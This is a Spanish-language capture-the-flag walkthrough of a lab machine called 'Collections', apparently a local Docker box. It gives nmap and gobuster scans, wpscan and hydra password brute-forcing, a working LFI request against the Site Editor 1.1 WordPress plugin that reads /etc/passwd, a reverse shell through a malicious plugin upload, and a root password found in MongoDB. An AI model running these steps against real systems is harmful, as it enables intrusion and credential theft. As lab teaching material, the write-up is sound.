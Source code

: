 # Maquina Collections

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.1 

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,27017 -vvv -Pn 172.17.0.1

![alt text](image-1.png)

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.1/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

![alt text](image-2.png)

gobuster dir -t 200 -u http://172.17.0.1/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

![alt text](image-3.png)

utilizamos wpscan para ver si hay algún usuario


wpscan --url http://172.17.0.1/wordpress -e p,u

![alt text](image-4.png)

hacemos fuerza bruta con wpscan:

wpscan -U chocolate -P /usr/share/wordlists/rockyou.txt --url http://172.17.0.1/wordpress/wp-login.php -t 200 --multicall-max-passwords 2000

![alt text](image-5.png)

aplicamos un 

curl -s -X GET "http://172.17.0.1/wordpress/" | grep plugins

![alt text](image-6.png)

el site  editor 1.1 tiene una vulnerabilidad de LFI:

iniciamos sesión, y luego nos vamos a la ruta: 

http://collections.dl/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![alt text](image-7.png)

### Ataque con hydra:

hydra -l chocolate -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.1 -t 4 -I

![alt text](image-8.png)

### Intrusión

Forma 1:

Nos conectamos por ssh

ssh chocolate@172.17.0.1

![alt text](image-9.png)

hice un cat /etc/passwd | grep bash

![alt text](image-10.png)

Forma 2:

Una vez iniciado sesión subimos un plugin con código mailicioso:

![alt text](image-13.png)

lo comprimimos con zip y los subimos, luego lo instalamos y lo activamos, nos ponemos en escucha con netcat y listo tenemos acceso, hacemos tratamiento de la tty:

![alt text](image-14.png)

luego seguimos la misma forma de escalar privilegios.

### Escalar privilegios

como tenemos corriendo mongo en el puerto 27017, nos conectamos :

mongo --host 172.17.0.1 --port 27017

![alt text](image-11.png)

luego volvemos a la conexión ssh, y ejecutamos su root y escribimos la contraseña chocolaterequetebueno123

![alt text](image-12.png)

soy root !!!

